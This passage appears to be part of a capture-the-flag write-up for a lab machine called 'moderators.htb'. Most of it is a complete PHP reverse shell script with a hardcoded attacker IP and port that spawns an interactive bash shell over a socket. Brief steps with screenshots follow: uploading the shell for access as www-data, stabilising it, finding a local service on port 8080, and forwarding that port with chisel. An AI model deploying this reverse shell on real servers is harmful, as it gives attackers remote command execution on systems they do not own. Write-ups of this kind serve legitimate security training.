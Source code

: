 ```php
 set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.14.36"; $port = 2222; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { printit("ERROR: Cannot fork"); exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { printit("Error: Cannot setsid()"); exit(1); } $daemon = 1; } else { printit("WARNING: Failed to daemonise.  This is quite common and not fatal."); } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { printit("$errstr ($errno)"); exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { printit("ERROR: Cannot spawn shell"); exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); printit("Successfully opened reverse shell to $ip:$port"); while (1) { if (feof($sock)) { printit("ERROR: Shell connection terminated"); break; } if (feof($pipes[1])) { printit("ERROR: Shell process terminated"); break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { if ($debug) printit("SOCK READ"); $input = fread($sock, $chunk_size); if ($debug) printit("SOCK: $input"); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { if ($debug) printit("STDOUT READ"); $input = fread($pipes[1], $chunk_size); if ($debug) printit("STDOUT: $input"); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { if ($debug) printit("STDERR READ"); $input = fread($pipes[2], $chunk_size); if ($debug) printit("STDERR: $input"); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); function printit ($string) {  if (!$daemon) { print "$string\\n"; } }
```

<img src="https://i.imgur.com/Iy4ctZ9.png"/>

On uploading this, we'll get a shell as `www-data`

<img src="https://i.imgur.com/55GQQyu.png"/>


Stabilizing the shell with python3 so we can get a better shell 

<img src="https://i.imgur.com/tPxOtls.png"/>
Checking the services running on the machine with `ss -tulpn` we can there's 8080 open

<img src="https://i.imgur.com/DaNNuYR.png"/>

<img src="https://i.imgur.com/WOvJezS.png"/>

We can use `chisel` to port forward 8080 which we can transfer by hosting through python3, also to add `moderators.htb` in our hosts file

<img src="https://i.imgur.com/c8DCgrn.png"/>

<img src="https://i.imgur.com/6iRnibV.png"/>

<img src="https://i.imgur.com/sfZu9iu.png"/>

This is using wordpress we can tell this by looking at `wapplayzer` extension


<img src="https://i.imgur.com/3hVgozC.png"/>
